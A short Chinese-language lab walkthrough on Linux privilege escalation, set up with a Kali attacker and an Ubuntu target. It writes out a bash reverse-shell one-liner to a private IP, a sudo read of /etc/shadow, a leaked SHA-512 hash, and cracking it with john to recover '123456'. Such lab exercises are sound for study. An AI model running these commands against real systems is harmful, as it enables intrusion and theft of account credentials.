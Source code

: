 ### /etc/shadow 泄露 + john 碰撞哈希提权

环境准备：一台 KaliLinux（攻击者）和一台 Ubuntu 12.04.5（靶标）

![](https://pic1.imgdb.cn/item/68bf548958cb8da5c88af39e.png)

![](https://pic1.imgdb.cn/item/68bf54b358cb8da5c88af3bc.png)

在靶标上手动创建反弹 Shell 模拟已进入内网情况

```sh
bash -i >& /dev/tcp/192.168.41.151/6767 0>&1
```

![](https://pic1.imgdb.cn/item/68bf558958cb8da5c88af412.png)

模拟当 `shadow` 文件配置错误导致泄露账号密码情况

```sh
sudo cat /etc/shadow
```

![](https://pic1.imgdb.cn/item/68c70787c5157e1a880206f1.png)

拿到密码哈希

```
$6$D0fVPeaX$Fgk1oHZwz5skFzXDDlEQqeqyy.DLFLLp2hxjnz/gm07s7CMbfXuqH.fnOnuA1L3olNfLLSXpD0Xik2vYjzPhO.
```

使用工具 john 碰撞拿到密码 123456

![](https://pic1.imgdb.cn/item/68c7088fc5157e1a880207fa.png)